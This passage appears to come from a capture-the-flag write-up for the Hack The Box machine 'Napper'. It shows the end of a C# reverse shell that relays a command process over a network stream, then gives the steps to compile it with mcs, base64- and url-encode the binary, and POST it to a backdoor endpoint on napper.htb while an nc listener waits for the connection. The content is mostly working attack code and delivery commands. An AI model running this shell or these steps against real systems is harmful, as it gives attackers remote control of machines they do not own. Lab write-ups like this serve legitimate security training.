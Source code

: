 ```csharp
            p.Start();
            p.BeginOutputReadLine();

            while(true)
            {
              strInput.Append(rdr.ReadLine());
              //strInput.Append("\n");
              p.StandardInput.WriteLine(strInput);
              strInput.Remove(0, strInput.Length);
            }
          }
        }
      }
    }
    public static void Main(string[] args)
    {
       new Run();
    }

    private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
    {
      StringBuilder strOutput = new StringBuilder();

      if (!String.IsNullOrEmpty(outLine.Data))
      {
        try
        {
          strOutput.Append(outLine.Data);
          streamWriter.WriteLine(strOutput);
          streamWriter.Flush();
        }
        catch (Exception err) { }
      }
    }
  }
}
```

Now that we have to code, we need a compiler to compile it, to made it portable, we can use mcs:

```bash
❯ mcs -out:Program.exe Program.cs
Program.cs(64,34): warning CS0168: The variable `err' is declared but never used
Compilation succeeded - 1 warning(s)
```

Now that we have the assembly finalized, we have to set up the nc listener on the port you specified, base64 encode, urlencode the payload and send it to the server:

```bash
❯ base64 -w 0 Program.exe | xclip -sel clip # Base64 the program and copy it to clipboard
❯ payload="your_copied_payload"
❯ php -r "echo urlencode('$payload');" | xclip -sel clip # Url encode the payload and copy it to clipboard
❯ urlencoded_payload="your_new_copied_payload"
❯ curl -X POST -k https://napper.htb/ews/MsExgHealthCheckd/ -d "sdafwe3rwe23=$urlencoded_payload"
```

